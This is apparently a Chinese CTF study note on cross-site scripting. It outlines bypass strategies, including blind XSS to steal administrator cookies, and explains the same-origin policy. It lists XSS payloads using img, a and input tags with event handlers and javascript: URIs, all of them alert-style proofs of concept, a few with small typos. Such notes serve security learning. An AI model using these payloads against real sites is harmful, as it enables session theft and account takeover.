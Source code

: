 思路：

+   简单的xss，未作任何过滤，直接利用xss平台盲打管理员cookie
+   过滤标签，尝试各种绕过方法
+   存在安全策略csp等，尝试相应的绕过方法
+   逆向 .swf 文件，审计源码，构造 xss payload

### 知识点

#### 同源策略

同源策略限制了不同源之间如何进行资源交互，是用于隔离潜在恶意文件的重要安全机制。

何为同源？

+ 协议相同（http/https）
+ host 相同
+ 端口相同

#### 常见标签

**`<img>`**

```html
<img src=javascript:alert("xss")>
<IMG SRC=javascript:alert(String.formCharCode(88, 83, 83))>
<img src="URL" style='Xss:expression(alert(/xss));'>
<!--CSS标记xss-->
<img style="background-image:url(javascript:alert('XSS'))">
    
<img src="x" onerror=alert(1)>
<img src="1" onerror=eval("alert('xss')")>
    
<img src=1 onmouseover=alert('xss')>
```

**`<a>`**

```html
<a href="https://www.baidu.com">baidu</a>

<a href="javascript:alert('xss')">aa</a>
<a href=javascript:eval(alert('xss'))>aa</a>
<a href="javascript:aaa" onmouseover="alert(/xss/)">aa</a>

<script>alert('xss')</script>
<a href="" onclick=alert('xss')>aa</a>

<a href="" onclick=eval(alert('xss'))>aa</a>

<a href=kycg.asp>ttt=1000 onmouseover=prompt('xss') y=2018>aaa</a>
```

**`input`**

```html
<input name="name" value="">
    
<input value="" onclick=alert('xss') type="text">
    
<input name="name" value="" onmouseover=prompt('xss') bad="">
    
<input name="name" value=""><script>alert('xss')</script>

<input onfocus="alert('xss');">

竞争焦点，从而触发 onblur 事件
<input onblur=alert('xss') autofocus><input autofocus>
```